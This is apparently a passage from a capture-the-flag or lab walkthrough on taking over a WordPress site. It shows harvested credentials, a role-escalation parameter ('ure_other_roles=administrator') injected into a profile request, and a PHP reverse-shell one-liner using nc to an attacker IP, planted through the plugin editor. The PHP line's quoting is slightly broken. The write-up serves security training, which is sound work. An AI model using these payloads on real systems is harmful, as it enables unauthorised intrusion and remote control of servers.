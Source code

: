 After a couple minutes of wait, we get credentials for Wendy, if you want to speed up the process, just use Wendy as the username:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617132550.png)


```
wendy:changelater
```


Let's login:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617132639.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617132721.png)

Unfortunately for us, we cannot do much to get a reverse shell yet, we need to exploit this: 
 
`EXPLOIT: https://www.exploit-db.com/exploits/44595`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617153937.png)


Basically, we need to intercept the request and change a parameter, let's do it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617154114.png)

Click on Update Profile:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617154612.png)

On here we need to add:

```
&ure_other_roles=administrator&
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617154700.png)

Once we send the request, we notice our dashboard changed:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617154828.png)

We got new functionalities, we can get a shell through the `plugin editor`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617154915.png)

We can simply add this on top:

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.28 9001 >/tmp/f);?>
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617155345.png)
